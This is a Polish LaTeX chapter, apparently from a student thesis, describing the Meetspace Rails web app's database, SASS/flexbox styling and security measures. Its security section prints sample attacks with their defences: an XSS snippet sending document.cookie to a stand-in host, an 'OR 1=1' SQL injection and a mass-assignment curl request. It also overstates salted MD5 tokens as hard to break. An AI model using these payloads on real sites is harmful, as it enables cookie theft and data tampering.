\section{Realizacja projektu}
Realizacja projektu Meetspace została podzielona na kilka etapów. Pierwszymi z nich było przygotowanie środowiska, zarejestrowanie domeny i zaprojektowanie modelu aplikacji. Następnie rozpoczęły się prace nad poszczególnymi funkcjonalnościami aplikacji, których etapy powstawania zostały udokumentowane w pliku \emph{CHANGELOG.md}

Poniżej zostały opisane wybrane funkcjonalności, działania i zagadnienia z zakresu back-endu\footnote{Działania aplikacji wykonywane po stronie serwera}, front-endu\footnote{Działania aplikacji wykonywane po stronie przeglądarki intenetowej} i bezpieczeństwa aplikacji.
  \clearpage
  \subsection{Model bazy danych}
    Do przechowywania danych w aplikacji została wybrana baza SQLite, która w przyszłości zostanie zmieniona na MySQL. Baza zawiera cztery tabele:
    \begin{itemizeReduced}
      \item User - informacje o użytkowniku aplikacji
      \item Event - informacje związane z wydarzeniem
      \item Authentication - informacje pobrane z Facebook API
      \item Subscriber - lista osób zapisanych do newslettera
    \end{itemizeReduced}

    \begin{figure}[h]
      \centering
        
\includegraphics[scale=0.55]{images/dbm.png}
      \caption{Schemat bazy danych aplikacji Meetspace}
    \end{figure}

    Na rysunku nr \ref{fig:dbm} zamieściliśmy schemat bazy zapisany w pliku \texttt{schema.rb}, wygenerowany za pomocą mechanizmu migracji\footnote{Mechanizm wbudowany w Ruby on Rails pozwalający na modyfikowanie bazy danych za pomocą specjalnych plików, tzw. migracji opisujących poszczególne elementy bazy\cite{rails4_way}}.

\begin{code}
  \lstinputlisting[language = Ruby, basicstyle=\ttfamily\scriptsize, showstringspaces=false, breaklines=true, linerange={2-55, 57-57}]{../meetspace/db/schema.rb}
\end{code}


    % \subsection{Wyszukiwanie wydarzeń}
    % \subsection{Newsletter}

    \subsection{Przykładowe CSS i JS}
      W aplikacji zostały użyte takie technologie jak SASS\footnote{Więcej informacji w rozdziale \ref{other_technology}} i CoffeScript\footnote{Więcej informacji w rozdziale \ref{other_technology}}, które ułatwiły pracę nad wyglądem strony oraz jej funkcjonalnością po stronie przeglądarki internetowej.\\

      \subsubsection{CSS}
        Style CSS \emph{(Cascade Stylesheets)} stanowią o całej szacie graficznej aplikacji. Od nich zależy jak wygląda strona. Określają kolory, rozmiar czcionek, wielkości poszczególnych elementów czy nawet proste animacje. Bez tego strona wyglądałaby nieatrakcyjnie i byłaby zupełnie nie użyteczna.
        \begin{itemize}
          \item Flexbox\\
            To nowe rozwiązanie pozwalające uzyskać płynny layout\footnote{Dopasowyjący się do rozmiaru okna wygląd strony.}. Pomaga również wyśrodkować w pionie jeden element HTML względem drugiego. Dotychczas twórcy witryn internetowych musieli stosować różnego rodzaju sztuczki, żeby to osiągnać. Na dzień dziejszy\footnote{Dane z dnia 14.12.2014} flexbox jest wspierany przez większość czołowych przeglądarek\footnote{\url{http://caniuse.com/\#search=flexbox}}. \\
            Z tej technologii korzystaliśmy głównie do wyśrodkowania poszczególnych elementów wzgladem innych.

\begin{code}
	\lstinputlisting[linerange={14-18}, firstnumber=1]{../meetspace/app/assets/stylesheets/_variables.css.scss}
\end{code}\\

Fragment kodu powyżej to przykład oferowanej funkcjonalności preprocesora Sass. \emph{Mixin} to funkcja, która może być wielokrotnie wykorzystana na wielu selektorach CSS.

\begin{code}
	\lstinputlisting[linerange={38-40, 75-75}, firstnumber=1]{../meetspace/app/assets/stylesheets/welcome.css.scss}
\end{code}\\

\emph{@include flex(left)} rozszerzy klasę \emph{search} o właściwości wymienione w pierwszym fragmencie kodu.

Rezultat zastosowania mechanizmu flexbox:\\
\begin{figure}[h]
	\centering
  
\includegraphics[scale=0.8]{images/flex_before.png}
  \caption{Bez flexbox.}
\end{figure}

\begin{figure}[h]
	\centering
  
\includegraphics[scale=0.8]{images/flex_after.png}
  \caption{Z wykorzystaniem flexbox.}
\end{figure}


            \clearpage
          \item Placeholder\\
            Placeholder to napis wyświetlany w ramce do wpisywania tekstu przez użytkownika. Służy do informowania o roli danego pola. Domyślnym kolorem czcionki jest szary ale nam zależało, żeby cały wygląd współgrał ze sobą. Dlatego chcieliśmy aby kolor placeholder'a był nieco jaśniejszy. Niestety nie da się tego osiągnąć nadając tagowi \emph{input} jakąś klasę i jej ustawiając kolor. Jedyny sposób to wykorzystanie predefiniowanego selektora, odpowiedzialnego za wygląd placeholder'a.

            \begin{code}
              \lstinputlisting[linerange={95-108}, firstnumber=1]{../meetspace/app/assets/stylesheets/layout.css.scss}
            \end{code}\\

            Wartość \emph{\$placeholder} to zmienna Sass przechowująca kolor. Dzięki jej zastosowaniu, w przypadku gdybyśmy chcieli zmienić wartość koloru na inną, nie będziemy musieli tego robić w kilku miejscach, tylko w jednym.

          \item Zapytania medialne \emph{(Media Queries)}\\
            W trakcie tworzenia witryny, która ma dopasowywać się do wielkości ekranu urządzenia, kluczową rolę odgrywają zapytania medialne. W trakcie ładowania pliku css, sprawdzają wielkość, rodzaj ekranu i stosują style zadeklarowane dla konkretnych rozdzielczości. Dzięki temu można określić na przykład, aby dla urządzeń o szerokości ekranu większej niż 600 pixeli tło strony było inne niż dla węższych ekranów.
            Poniżej zastosowane przez nas zapytania medialne dla urządzeń o maksymalnej szerokości 767 pixeli.
            \begin{code}
              \lstinputlisting[linerange={3}]{../meetspace/app/assets/stylesheets/media_queries.css.scss}
            \end{code}\\
        \end{itemize}
      \subsubsection{JS}
    \clearpage
    \subsection{Bezpieczeństwo}
    Aplikacje internetowe są w szczególności podatne na różnego rodzaju ataki sieciowe. Wykorzystany framework Ruby on Rails posiada domyślnie wbudowane zabezpieczenia. Poniżej przedstawiliśmy najważniejsze zagadnienia związane z bezpieczeństwem naszej aplikacji.
      \begin{itemize}
        \item \textbf{XSS}\\
        Cross Site Scripting (XSS) jest to atak polegający na wykonaniu zewnętrznego kodu HTML lub JS przesłanego, do strony z zewnątrz, za pomocą formularza lub żądania HTTP.

        Przykładowy atak typu XSS:

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <script>
      document.write(
        '<img scr="http:/hacked.site.com/' + document.cookie + '">'
      );
    </script>
    <a href='javascript:alert("Hacked")'>Personal Website</a>
  \end{lstlisting}
\end{code}\\

Dzięki wbudowanemu w Railsy systemowi ERB templates\footnote{System za pomocą, którego kod strony html jest generowany dynamicznie \cite{rails4_way}, \cite{ruby_rails}} mamy do czynienia z dynamicznym tworzeniem kodu HTML, co uniemożliwia większość ataków tego typu. Wszelkiego rodzaju odnośniki i dane na stronie zapisywane są przy użyciu specjalnej notacji:

\begin{code}
  \lstinputlisting[language=Ruby, linerange={65-66}]{../meetspace/app/views/events/_form.html.erb}
\end{code}\\

która zostaje przekompilowana do kodu HTML przez serwer i wysłana przeglądarce internetowej.

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <a href="/events">My events</a>
    <a href="/">Events</a>
  \end{lstlisting}
\end{code}\\


        \clearpage

        \item \textbf{SQL injection}\\
        SQL injection jest jednym z najpopularnieszych ataków sieciowych. Jego celem jest modyfikacja danych w bazie poprzez wpływanie na zapytania, manipulację parametrami i formularzami aplikacji.\\\\
        Przykładowy atak SQL Injection przy poniższym zapisie wyszukiwania wydarzeń, daje atakującemu możliwość wpisania dowolnego parametru do zapytania.

\begin{center}
  \texttt{ Event.where("name LIKE \%\#\{params[:name]\}") }
\end{center}

Dla wprowadzenia danych \emph{OR 1=1} otrzymamy następujace zapytanie do bazy,

\begin{center}
  \texttt{ SELECT * FROM events WHERE name = '' OR 1 --' }
\end{center}

które spowoduje wyświetlenie wszystkich wydarzeń, również tych niedostępnych dla użytkowników. Przyczyną takiego wyniku jest znak komentarza \emph{- -} na końcu zapytania uniemożliwiający wykonanie dalszej część zapytania.
Sposobem na zapewnienie bezpieczeństwa jest w tym przypadku stosowanie odpowiedniego zapisu zapytań:

\begin{code}
  \lstinputlisting[language=Ruby, linerange={7-10}]{../meetspace/app/interactions/event_search.rb}
\end{code}\\

W miejsca, gdzie znajdują się znaki zapytania, zostają wstawione wartości ze zmiennej \emph{search}. Zawartość zmiennej zostaje sprawdzona przez wbudowane filtry wykrywające znaki specjalne dla zapytań SQL.


        \item \textbf{Mass Assignment} \\
        Mass assignment atak, czyli masowe przypisywanie, jest atakiem, który ma na celu wprowadzenie modyfikacji do obiektu przez dodanie lub odpowiednie zmdyfikowanie parametrów przychodzących do kontrolera z przeglądarki internetowej.\\
        Poniższy przykładowy atak przypisuje stworzone wydarzenie przypadkowemu użytkownikowi.

\texttt{ \footnotesize curl -d "event[name]=Test\&event[user\_id]=3" http://meetspace.it/event/ }

Rozwiązaniem tego problemu jest zastosowanie techniki tzw. \emph{Strong Parameters}. Uniemożliwia ona przesłanie zmodyfikowanych parametrów, ponieważ do kontrolera trafiają jedynie dane dozwolone przez programistę. Parametry nie zdefiniowane zostają zignorowane. Poniżej przedstawiono przykładowe użycie tej metody dla kontrolera zarządzającego wydarzeniami.

\begin{code}
  \lstinputlisting[language=Ruby, linerange={38-42}]{../meetspace/app/controllers/events_controller.rb}
\end{code}\\
\index{Interaktor}
Zastosowanie wzorca projektowego interaktora również uniemożliwia tego rodzaju atak. Podobnie jak w powyższym przykładzie, interaktor przyjmuje jedynie zdefiniowane parametry.

\begin{code}
  \lstinputlisting[language=Ruby, linerange={1-6}]{../meetspace/app/interactions/subscriber_registration_update.rb}
\end{code}\\

      \end{itemize}
    Innymi zabezpieczeniami wprowadzonymi w aplikacji są m.in.:
    \begin{itemize}
      \index{MD5}
      \item Autoryzacja dostępu do API poprzez unikalny token użytkownika.\\
      Aby użytkownik mógł skorzystać z zaimplementowanego API, musi podać 128 bitowy klucz autoryzujący przypisany do jego konta. Każdy klucz jest generowany przy pomocy algoryytmu MD5, który dodatkowo zostaje przesolony\footnote{Do powstałego ciągu znaków zostają dodane losowe dane.}\emph{(salt)}. Co czyni go w pełni unikatowym i trudnym do złamania.

      \item Walidacja wielkości i formatu loga wydarzenia.\\
      Zabezpieczenie to chroni aplikację, przed możliwością dodania plików zawierających wykonywalny kod lub formatów plików nie obsługiwanych przez aplikację. Walidacja na wielkość przesyłanych plików uniemożliwa również zbytnie obciążenie serwera.

      \item Przetrzymywanie danych wrażliwych w zmiennych środowiskowych.\\
      Wszelkie dane wrażliwe, takie jak hasła czy klucze autoryzujące są przechowywane w specjalnych zmiennych środowiskowych
      \begin{center}
        \texttt{ENV['FACEBOOK\_KEY']},
      \end{center}
      zapisanych w pliku \emph{.env}, pod postacią klucz:wartość
      \begin{center}
        \texttt{FACEBOOK\_KEY: 123456789},
      \end{center}
      co uniemożliwa do nich dostęp i zwiększa bezpieczeństwo aplikacji.
    \end{itemize}
    \subsection{Przegląd widoków aplikacji}
